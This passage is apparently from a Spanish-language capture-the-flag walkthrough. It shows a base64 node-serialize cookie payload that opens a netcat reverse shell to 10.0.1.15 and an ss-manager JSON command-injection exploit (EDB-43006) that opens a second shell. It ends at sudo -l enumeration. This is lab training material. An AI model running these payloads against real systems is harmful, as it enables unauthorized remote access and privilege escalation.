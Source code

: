 ```bash
```
Antes de eso, necesitaremos codificarla en base64. Podemos usar [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JldHVybiByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlY1N5bmMoJ25jIC1lIC9iaW4vYmFzaCAxMC4wLjEuMTUgMTIzNCcsKGUsb3V0LGVycik9Pntjb25zb2xlLmxvZyhvdXQpO30pOyB9KCkifQ), como hicimos anteriormente, y luego cargarla en la cookie. Es importante recordar codificar como URL los dos '==' al final de la cadena codificada, que se convertirían en 'n %3D%3D'
```bash
eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JldHVybiByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlY1N5bmMoJ25jIC1lIC9iaW4vYmFzaCAxMC4wLjEuMTUgMTIzNCcsKGUsb3V0LGVycik9Pntjb25zb2xlLmxvZyhvdXQpO30pOyB9KCkifQ%3d%3d
```
Con esto, habremos obtenido acceso a una shell inversa.

# Privilege escalation
Para mejorar la estabilidad de la terminal, podemos usar el siguiente comando:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Al enumerar los procesos en ejecución en el sistema, identificamos 'ss-manager' ejecutándose como usuario 'fireman'. Esta herramienta es una utilidad de administración para Shadowsocks-libev, utilizada para controlar los servidores de Shadowsocks existentes y generar otros nuevos. Sin embargo, la versión anterior de 'ss-manager' es vulnerable a la inyección de comandos a través de JSON, [EDB-43006](https://www.exploit-db.com/exploits/43006)
```bash
[nodeadmin@localhost ~]$ ps aux | grep fireman
ps aux | grep fireman
root       805  0.0  0.1 301464  4448 ?        S    07:37   0:00 su fireman -c /usr/local/bin/ss-manager
fireman    827  0.0  0.0  37060  3792 ?        Ss   07:37   0:00 /usr/local/bin/ss-manager
nodeadm+  1975  0.0  0.0 213788   936 pts/0    S+   10:18   0:00 grep --color=auto fireman
```
Según la documentación de Exploit Database, el comando que debemos ejecutar para explotar la vulnerabilidad es el siguiente. Primero, necesitaremos estar escuchando por Netcat desde otra termina
```bash
nc -lvnp 5555
```
Ahora, desde la shell inversa, ejecutamos lo siguiente
```bash
nc -u 127.0.0.1 8839
```
```bash
add: {"server_port":8003, "password":"test", "method":"|| nc 10.0.1.15 5555 -e /bin/bash ||"}
```
Para mejorar la estabilidad de la terminal, podemos usar el siguiente comando:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Ahora que tenemos acceso al usuario 'fireman', lo primero que haremos será verificar qué permisos tiene utilizando 'sudo -l'
```bash
[fireman@localhost root]$ sudo -l
sudo -l
Matching Defaults entries for fireman on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
```